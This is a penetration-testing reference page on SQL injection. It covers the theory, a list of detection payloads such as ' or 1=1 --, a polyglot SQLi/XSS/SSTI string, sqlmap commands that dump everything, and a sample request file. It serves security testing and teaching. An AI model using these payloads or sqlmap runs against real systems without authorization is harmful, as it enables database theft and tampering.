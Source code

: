 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to Local File Disclosure, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

Using special SQL characters \(`'`, `"`, `#`, `;`, `)`, `*`\) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```text
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

{% hint style="warning" %}
GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs \(parameters, user-agents, cookies...\)
{% endhint %}

The following payload is used for testing SQL injections, [XSS \(Cross-Site Scripting\)](xss-cross-site-scripting.md) and [SSTI \(Server-Side Template Injection\)](ssti-server-side-tempate-injection.md).

```text
'"<svg/onload=prompt(5);>{{7*7}}
```

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) \(Python\) or [SQLninja](https://github.com/xxgrunge/sqlninja) \(Perl\) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases \(like overwriting or deleting data\) could have serious fallout.
{% endhint %}

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request \(line, headers, empty line, optional data\). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy \(like Burp Suite\), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## References

{% embed url="https://www.asafety.fr/mysql-injection-cheat-sheet/" caption="" %}

{% embed url="https://owasp.org/www-community/attacks/SQL\_Injection" caption="" %}

{% embed url="https://portswigger.net/web-security/sql-injection" caption="" %}

{% embed url="http://pentestmonkey.net/category/cheat-sheet/sql-injection" caption="SQL injection cheatsheets \(MSSQL, MySQL, Oracle SQL, Postgres SQL, ...\)" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" caption="" %}

